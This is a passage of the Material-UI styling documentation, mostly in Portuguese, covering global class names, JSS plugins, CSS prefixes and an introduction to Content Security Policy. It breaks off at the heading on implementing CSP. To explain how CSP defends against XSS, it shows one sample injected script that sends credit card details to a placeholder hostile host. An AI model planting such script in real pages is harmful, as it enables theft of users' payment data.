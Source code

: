 ```jsx
      border-color: green; 💚
    }
  }
`;
```

{{"demo": "pages/styles/advanced/GlobalClassName.js"}}

## Global CSS

### `jss-plugin-global`

O plugin [`jss-plugin-global`](#jss-plugins) é instalado na predefinição padrão. Você pode usá-lo para definir nomes de classes globais.

{{"demo": "pages/styles/advanced/GlobalCss.js"}}

### Híbrido

Você também pode combinar nomes de classe gerados pelo JSS com nomes globais.

{{"demo": "pages/styles/advanced/HybridGlobalCss.js"}}

## Prefixos CSS

O JSS usa recursos de detecção para aplicar os prefixos corretos. [Não fique surpreso](https://github.com/mui-org/material-ui/issues/9293) se você não conseguir ver um prefixo específico na versão mais recente do Chrome. Seu navegador provavelmente não precisa disso.

## Política de segurança de conteúdo (CSP)

### O que é CSP e por que é útil?

Basicamente, o CSP reduz os ataques de cross-site scripting (XSS) exigindo que os desenvolvedores incluam na whitelist as fontes de onde seus assets são recuperados. Esta lista é retornada como um cabeçalho do servidor. Por exemplo, digamos que você tenha um site hospedado em `https://example.com` o cabeçalho CSP `default-src: 'self';` permitirá todos os assets localizados em `https://example.com/*` e negar todos os outros. Se houver uma seção do seu site que é vulnerável ao XSS, onde a entrada do usuário sem escape é exibida, um invasor pode inserir algo como:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

This vulnerability would allow the attacker to execute anything. However, with a secure CSP header, the browser will not load this script.

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

### How does one implement CSP?
